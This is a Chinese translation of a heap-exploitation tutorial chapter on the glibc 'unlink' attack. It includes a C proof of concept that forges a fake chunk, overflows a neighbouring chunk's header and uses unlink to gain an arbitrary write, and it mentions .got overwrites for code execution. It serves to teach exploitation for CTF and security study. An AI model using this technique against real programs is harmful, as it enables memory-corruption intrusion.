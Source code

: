 ```yaml
---
title: Heap Exploitation系列翻译-11 Unlink Exploit
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```

# Unlink Exploit

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击技术曾十分常用, 然而之后在`unlink`宏里添加的两项安全检查("corrupted size vs. prev_size")和("corrupted double-linked list")在一定程度上减少了这种攻击. 不过我们依旧值得花时间去掌握这项技术. 该攻击技术利用了在bin中移除堆块时`unlink`宏进行的指针操作发生的漏洞

考虑以下示例代码(下载完整版本: [这里](https://heap-exploitation.dhavalkapil.com/assets/files/unlink_exploit.c) )

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x80);        // Points to 0xa0e010
chunk2 = malloc(0x80);        // Points to 0xa0e0a0

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;   // hex for "hacked!"

printf("%s\n", data);         // Prints "hacked!"
```

相比其他攻击, 这看上去可能会有些复杂. 首先我们申请了两个大小为`0x80`的堆块 `chunk1`和 `chunk2`以确保两者都在smallbin范围内. 接下来我们假定攻击者以某种方式无界限地控制`chunk1`的内容(比如说可以使用一些不安全的函数比如`strcpy`来读取用户输入). 要注意, 两个堆块在内存里是紧挨着的. 上面展示的代码使用了一个自定义的结构体`chunk_structure`单纯只是为了清楚的展示而已. 在一个攻击情景中, 攻击者可能只是简单地发送一些数据填充了`chunk1`, 这样也是能达到相同效果的

在`chunk1`的`data`域创建了一个新的伪造堆块. `fd`和`bk`指针经过调整以绕过"corrupted double-linked list"安全检查. 攻击者的输入内容溢出到了`chunk2`的头部并设置了对应的`prev_size`和`prev_in_use`位. 这也确保了一旦`chunk2`被释放, 我们的`fake_chunk`都会被认作为'空闲的'并且将进行`unlink`操作. 下面的图标很好地展示了不同内存区域的当前状态:

![Unlink before call to free](https://heap-exploitation.dhavalkapil.com/assets/images/unlink_before_free.png)

务必要弄明白为什么可以通过`P->fd->bk == P` 和 `P->bk->fd == P`的检查. 这会告诉你如何去调整伪堆块的`fd`和`bk`指针

一旦`chunk2`被释放, 它就会作为small bin被处理. 我们回想一下, prev chunks和next chunks会被检查它们是否被释放. 如果其中任意一个堆块被检查到已释放, 它就会因为合并连续的空闲堆块而进行`unlink`操作. `unlink`宏执行以下两个修改指针的指令:

1. 设置 `P->fd->bk` = `P->bk`.
2. 设置 `P->bk->fd` = `P->fd`.

In this case, both `P->fd->bk` and `P->bk->fd` point to the same location so only the second update is noticed. The following diagram shows the effects of the second update just after `chunk2` is freed.

在这种情形下, `P->fd->bk` 和 `P->bk->fd`都指向相同的地方因此我们只需要注意第二次操作即可. 下面的图标展示了在`chunk2`被释放后第二次操作的影响.

![Unlink after call to free](https://heap-exploitation.dhavalkapil.com/assets/images/unlink_after_free.png)

现在, 我们让`chunk1`在它之后(`&chunk-3`)指向了3个地址(16位). 因此, `chunk1[3]`实际上就是`chunk1`. 改变`chunk1[3]`就是改变`chunk1`. 要注意的是, 一个攻击者很有可能获得机会去更新`chunk1`(`这里是chunk1[3]`)位置的数据, 而非`chunk1`本身. 这样我们完成了这次攻击. 在本例中, `chunk1`用于指向变量'data'并且通过改变`chunk1`从而影响到了该变量

早先, 在缺少`unlink`的安全检查的时候, 那两项`unlink`宏的指令常用语显示任意地址写. 通过覆写`.got`段从而导致任意代码执行
